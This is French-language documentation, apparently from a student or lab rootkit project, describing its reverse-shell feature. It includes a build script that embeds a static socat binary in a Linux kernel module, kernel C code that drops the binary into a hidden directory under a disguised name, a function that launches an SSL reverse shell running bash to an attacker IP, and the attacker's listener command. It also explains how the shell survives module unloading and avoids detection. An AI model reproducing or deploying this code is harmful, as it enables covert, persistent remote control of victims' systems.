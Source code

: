 \page reverse Reverse Shell
\tableofcontents

{#reverse-shell-doc}
Dans le cadre de notre projet, nous avons implémenté un reverse shell utilisant `socat` pour établir une connexion chiffrée SSL vers le serveur d'attaque. Le choix de `socat` est motivé par sa capacité à fournir un shell interactif complet, contrairement à des outils plus simples comme `netcat` ou même simplement `bash`.
Afin de pouvoir s'assurer de la présence de `socat` sur le système, nous avons intégré le binaire directement dans le rootkit, ce qui permet de le déposer dynamiquement lors du montage du rootkit. Cela demande d'avoir à disposition une version statique de `socat` embarquant aussi SSL, de dumper ce binaire dans le rootkit afin de pouvoir finalement l'utiliser pour établir le reverse shell.

### Chargement de socat dans le module en tant que payload

Pour charger le binaire `socat` dans le rootkit, nous utilisons un script lors de la compilation du module. Ce script extrait le binaire `socat` et le convertit en un tableau de caractères C, qui est ensuite intégré dans le code source du module.

```bash
generate_socat_h() {
  # if socat file does not exist, download it
  if [ ! -f socat ]; then
    echo "socat binary not found."
    echo "Download static socat binary from github.com/ernw/static-toolbox"
    wget https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat
    if [ $? -ne 0 ]; then
      echo "Failed to download socat binary."
      exit 1
    fi
    echo "Download complete."
  fi
  echo "Hexdumping socat to socat.h"
  xxd -i socat > include/socat.h
}

# Check if socat.h exists
if [ ! -f ./include/socat.h ]; then
  echo "socat.h not found, generating it..."
  generate_socat_h
else
  echo "socat.h already exists, skipping generation."
fi
```

À la suite de cela, nous obtenons finalement un fichier `socat.h` contenant le code suivant :

```c
unsigned char socat[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
  // ... (le reste du binaire socat)
};
unsigned long socat_len = 123456; // Longueur du binaire socat
```

### Déchargement du binaire sur la machine cible

Le binaire `socat` est déposé sur la machine cible grâce à la fonction `drop_socat_binaire(void)` :

```c
int drop_socat_binaire(void) {
    if (is_socat_binaire_dropped()) {
        DBG_MSG("drop_socat_binaire: socat binary already dropped\n");
        return SUCCESS;
    }

    struct file *f;
    loff_t pos = 0;

    f = filp_open(SOCAT_BINARY_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0700);
    if (IS_ERR(f)) {
        ERR_MSG("drop_socat_binaire: failed to open file: %ld\n", PTR_ERR(f));
        return -FAILURE;
    }

    unsigned int written = kernel_write(f, socat, socat_len, &pos);
    if (written < 0) {
        ERR_MSG("drop_socat_binaire: kernel_write failed: %u\n", written);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else if (written < socat_len) {
        ERR_MSG("drop_socat_binaire: only %u bytes written, expected %u\n", written, socat_len);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else {
        DBG_MSG("socat written successfully (%u bytes)\n", written);
    }

    filp_close(f, NULL);

    return SUCCESS;
}
```

Cette fonction vérifie d'abord si le binaire a déjà été déposé, puis crée et écrit le contenu du tableau `socat` (contenant le binaire) à l'emplacement défini par `SOCAT_BINARY_PATH`. Elle gère également les erreurs potentielles lors de l'écriture et s'assure que l'intégralité du binaire est bien écrite sur le disque.

> **Obfuscation et discrétion du binaire**
> Par défaut, le fichier `socat` déposé sur la machine cible est renommé avec l'extension `.sysd` afin d'ajouter une première couche d'obfuscation. De plus, il est placé dans le répertoire caché du rootkit, ce qui le rend pratiquement invisible pour un utilisateur ou un administrateur système classique. Ce choix vise à limiter les risques de détection du binaire par des outils d'analyse ou lors d'une inspection manuelle du système de fichiers.

### Exécution du reverse shell
Pour exécuter le reverse shell, nous utilisons la fonction `launch_reverse_shell(char *args)` :

```c
int launch_reverse_shell(char *args) {
  if (!is_socat_binaire_dropped()) {
    ERR_MSG("launch_reverse_shell: socat binary not dropped\n");
    return -FAILURE;
  }

  int port = REVERSE_SHELL_PORT; // Port par defaut

  // Recuperer le port
  if (args && strlen(args) > 0)
    port = simple_strtol(args, NULL, 10);

  // Construire la commande socat avec le port spécifié
  char cmd[256];
  snprintf(cmd, sizeof(cmd), "%s exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:%s:%d,verify=0 &",
          SOCAT_BINARY_PATH, ip, port);

  // Lancer la commande
  int ret_code = exec_str_as_command(cmd, false);

  if (ret_code < 0) {
    ERR_MSG("launch_reverse_shell: failed to start reverse shell on port %d\n", port);
    return ret_code;
  }

  DBG_MSG("launch_reverse_shell: reverse shell started on port %d\n", port);
  return SUCCESS;
}
```

Cette fonction vérifie d'abord que le binaire `socat` a bien été déposé. Elle récupère ensuite le port à utiliser (par défaut ou passé en argument), construit la commande d'exécution du reverse shell avec `socat`, puis l'exécute via `exec_str_as_command`. Les erreurs sont gérées et un message de succès est affiché si le shell est lancé correctement.

**Explication de la commande `socat` utilisée :**
```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:IP:PORT,verify=0 &
```
Cette commande `socat` établit une connexion SSL vers l'IP et le port spécifiés, tout en redirigeant l'entrée et la sortie standard vers un shell interactif `bash`. Les options utilisées sont :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `exec:bash -i`              | Exécute un shell interactif.                                                                     |
| `pty`                         | Alloue un pseudo-terminal pour le shell.                                                         |
| `stderr`                      | Redirige les erreurs vers la sortie standard.                                                    |
| `setsid`                      | Détache le processus du terminal.                                                                |
| `sigint`                      | Gère les signaux d'interruption.                                                                 |
| `sane`                        | Réinitialise les paramètres du terminal pour un comportement standard.                           |
| `openssl-connect:IP:PORT`     | Établit une connexion SSL vers l'IP et le port spécifiés.                                        |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |

En somme, cette commande génère un shell sur mesure permettant ensuite d'ajouter un maximum d'interactivité et de fonctionnalités, tout en étant sécurisé par SSL.

### Reception de la connexion par l'attaquant {#reverse-shell-reception}
Pour recevoir la connexion du reverse shell, l'attaquant doit exécuter la commande suivante sur son serveur :

```bash
socat openssl-listen:9000,reuseaddr,cert="$(pwd)"/server.pem,verify=0 file:"$(tty)",raw,echo=0
```

Explications des options utilisées :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `openssl-listen:9000`         | Écoute les connexions entrantes sur le port 9000 en utilisant SSL.                               |
| `reuseaddr`                   | Permet de réutiliser l'adresse et le port, utile pour éviter les erreurs de "port déjà utilisé". |
| `cert="$(pwd)"/server.pem`    | Spécifie le certificat SSL à utiliser pour la connexion.                                         |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |
| `file:"$(tty)",raw,echo=0`    | Redirige l'entrée/sortie vers le terminal actuel, en mode brut et sans écho.                      |

> **⚠️ Attention**  
> Le processus `socat` étant lancé dans un thread distinct du thread principal du module, il continue de s'exécuter même après le déchargement du rootkit. Cela présente l'avantage de maintenir un accès persistant à la machine cible, même si le rootkit doit être temporairement désactivé ou relancé. Cependant, il est important de garder à l'esprit que ce comportement peut laisser des traces (processus `socat` actif) et doit donc être pris en compte lors de l'utilisation ou de la suppression du module.

Dans le cadre de notre projet, nous avons automatisé le lancement de cette commande depuis l'interface web de l'attaquant, permettant ainsi de démarrer le reverse shell en un clic. 

> **Note**  
> Pour plus d'informations concernant le lancement côté attaquant, voir la section [Dashboard](#reverse-shell).

<img 
  src="logo_no_text.png" 
  style="
  display: block;
  margin: 100px auto;
  width: 30%;
  overflow: hidden;
  "
/>